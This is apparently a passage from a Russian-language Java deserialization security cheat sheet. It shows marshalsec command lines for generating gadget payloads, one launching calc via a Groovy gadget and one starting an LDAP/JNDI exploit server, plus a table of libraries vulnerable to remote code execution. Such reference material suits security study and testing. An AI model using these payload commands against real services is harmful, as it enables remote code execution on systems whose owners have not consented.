 * [mbechler/marshalsec](https://github.com/mbechler/marshalsec) - Java Unmarshaller Security - Превращение данных в выполнение кода

```
$ java -cp marshalsec.jar marshalsec.<маршаллер> [-a] [-v] [-t] [<тип_гаджета> [<аргументы...>]]
$ java -cp marshalsec.jar marshalsec.JsonIO Groovy "cmd" "/c" "calc"
$ java -cp marshalsec.jar marshalsec.jndi.LDAPRefServer http://localhost:8000\#exploit.JNDIExploit 1389
// -a — генерирует/тестирует все полезные данные для данного маршаллера
// -t — запускается в тестовом режиме, демаршаллируя сгенерированные полезные данные после их генерации.
// -v — подробный режим, например, также отображает сгенерированную полезную нагрузку в тестовом режиме.
// gadget_type — идентификатор конкретного гаджета. Если не указан, будут отображаться доступные для данного маршаллера.
// arguments — аргументы, специфичные для гаджета
```

**генераторы полезных нагрузок (payloads) для различных библиотек сериализации в Java**

| Библиотеки          | Воздействие гаджетов                                                          |
|--------------------|-------------------------------------------------------------------------------|
| BlazeDSAMF(0\|3\|X) | Эскалация до Java сериализации, различные RCE через сторонние библиотеки      |
| Hessian\|Burlap    | Различные RCE через сторонние библиотеки                                      |
| Castor             | RCE через зависимости библиотек                                               |
| Jackson            | Возможный RCE для эксплуатации достаточно стандартных библиотек Java, различные RCE через сторонние библиотеки |
| Java               | Еще один RCE через сторонние библиотеки                                       |
| JsonIO             | RCE для эксплуатации достаточно стандартных библиотек Java                    |
| JYAML              | RCE для эксплуатации достаточно стандартных библиотек Java                    |
| Kryo               | RCE через сторонние библиотеки                                                |
| KryoAltStrategy    | RCE для эксплуатации достаточно стандартных библиотек Java                    |
| Red5AMF(0\|3)      | RCE для эксплуатации достаточно стандартных библиотек Java                    |
| SnakeYAML          | RCE для эксплуатации достаточно стандартных библиотек Java                    |
| XStream            | RCE для эксплуатации достаточно стандартных библиотек Java                    |
| YAMLBeans          | RCE через сторонние библиотеки                                                |


# Десериализация JSON

Для работы с JSON в Java можно использовать множество библиотек.

* [json-io](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#json-io-json)
* [Jackson](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#jackson-json)
* [Fastjson](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#jackson-json)
* [Genson](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#genson-json)
* [Flexjson](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#flexjson-json)
* [Jodd](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#jodd-json)
